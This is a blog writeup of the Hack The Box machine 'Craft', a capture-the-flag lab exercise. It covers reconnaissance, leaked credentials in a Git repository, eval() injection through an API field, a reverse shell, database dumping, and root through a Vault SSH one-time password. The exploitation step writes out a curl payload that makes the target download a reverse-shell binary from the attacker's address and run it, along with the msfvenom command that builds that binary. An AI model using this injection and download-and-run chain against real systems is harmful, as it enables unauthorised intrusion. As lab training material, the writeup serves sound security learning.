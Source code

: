 ```yaml
---
title: "[Writeup] Hack The Box: Craft"
date: 2020-03-17T22:03:11+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Hello! It's been ages since I've updated this blog. This is a writeup for "Craft" on HTB that I have written since last November, when it was still up and running. I have totally forgotten about it until today, which I have just found out that it has been retired. It's a few months late, and there are writeups on this box everywhere, but here it is.

![](/images/htb_craft/craft.png)

<!--more-->

**OS:** Linux  
**Difficulty:** Medium  
**Points:** 30  
**Release:** 13 Jul 2019  
**IP:** 10.10.10.110  
**Date Cleared:** 5 Nov 2019

## Information Gathering

### Nmap Scan Result

```
# Nmap 7.70 scan initiated Tue Nov  5 00:31:41 2019 as: nmap -sV -sC -O -oN nmap 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=11/5%OT=22%CT=1%CU=35820%PV=Y%DS=2%DC=I%G=Y%TM=5DC1099
OS:7%P=i686-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%TS=8)SEQ(SP=106
OS:%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=9)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=71
OS:20%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:4DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  5 00:33:11 2019 -- 1 IP address (1 host up) scanned in 89.92 seconds
```

Found a webserver on 443 and ssh on 22.

### Port 443

The webpage itself is using the domain craft.htb, and the page contains links to 'https://api.craft.htb/api/' and 'https://gogs.craft.htb/', therefore; we need to add `10.10.10.110    craft.htb api.craft.htb gogs.craft.htb` to our host file '/etc/hosts'.

![](/images/htb_craft/443-home.png)

#### GOGS

The page 'https://gogs.craft.htb/' is hosting a Git service, in which we could explore and see the contents of the repository.

![](/images/htb_craft/443-gog-home.png)

![](/images/htb_craft/443-gog-explore.png)

Looking through the commit history, the credential 'dinesh:4aUh0A8PbVJxgd' could be found in commit '10e3ba4f0a', and was later deleted in commit 'a2d28ed155'.

![](/images/htb_craft/443-gog-creds.png)

In the Issues page, we found an example of endpoint calling
`curl -H 'X-Craft-API-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw' -H "Content-Type: application/json" -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv": "15.0")}'`, and a warning that the new patch is dangerous.

![](/images/htb_craft/443-gog-issue.png)

In the latest commit, a "patch" was commited, adding 'eval()' function to the brew endpoint which would process the user's input, so we could use this endpoint to execute system commands.

![](/images/htb_craft/443-gog-eval.png)

#### API

The page 'https://api.craft.htb/api/' is a swagger page showing the API documentation.

![](/images/htb_craft/443-api-home.png)

Using the credential found in the git repository, a valid token could be generated using /auth/login API.

```
"token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcyOTM2NjM2fQ.p06PEETfQsCMYcrOVk0Mo1gff4WhqbzQrFef2wZzh64"
```

![](/images/htb_craft/443-api-token.png)

## Exploitation

Our goal is to gain a remote shell connection, we could do it by running a python command `__import__("os").system("cd /tmp; wget 10.10.14.162/revshell; chmod +x /tmp/revshell; /tmp/revshell")` to upload a reverse shell binary generated with msfvenom (`msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.162 LPORT= 443 -f elf -o revshell`) using Python SimpleHTTPServer and create a connection back to us.

Using the API calling template we got, we can modify the token and abv parameter as follows:

```
curl -H 'X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcyOTM4ODkzfQ.TG6NcTG7evwYOyi0x70PiHYEqs7Psyizfim5p_YyvGc' -H 'Content-Type: application/json' -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv": "__import__(\"os\").system(\"cd /tmp; wget 10.10.14.162/revshell; chmod +x /tmp/revshell; /tmp/revshell\") #"}'
```

Using a handler, we got a reverse shell connection as root; however, after a bit of digging, it seems like we were inside a Docker container.

![](/images/htb_craft/handler.png)

![](/images/htb_craft/docker.png)

Found some credentials in '/opt/app/craft_api/settings.py'

![](/images/htb_craft/sh-creds.png)

Python was found in '/usr/local/bin', so we can add the directory to path to gain access to more commands using `export PATH=$PATH:/usr/local/bin`.

Found 'dbtest.py' in '/opt/app' which we could modify the query and change `cursor.fetchone()` to `cursor.fetchall()` to dump the content of the database.

Query: 'show databases'

![](/images/htb_craft/dbs.png)

Query: 'show tables'

![](/images/htb_craft/tables.png)

Query: 'select * from user'

![](/images/htb_craft/user.png)

We found multiple credentials which are:

```
dinesh:4aUh0A8PbVJxgd
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

Using the credential 'gilfoyle:ZEU3N8WNM2rh4T', we could log into GOG and see the private repository named 'craft-intra'.

![](/images/htb_craft/443-gog-private.png)

In the repository, a private key and public key pair could be found.

![](/images/htb_craft/443-gog-key.png)

๊Using the private key, we can ssh to the target with the credential 'gilfoyle:ZEU3N8WNM2rh4T'

![](/images/htb_craft/ssh.png)

Got the user flag.

![](/images/htb_craft/proof-user-blur.png)

## Privilege Escalation

From the GGO, there is a vault configuration file, enabling ssh secret with the role 'root_opt' that has root permission.

![](/images/htb_craft/vault-secret.png)

Using `vault ssh -role root_otp -mode otp root@127.0.0.1`, we could ssh to the target server itself and gain root with vault OTP.

![](/images/htb_craft/root.png)

OWNED!

![](/images/htb_craft/proof-root-blur.png)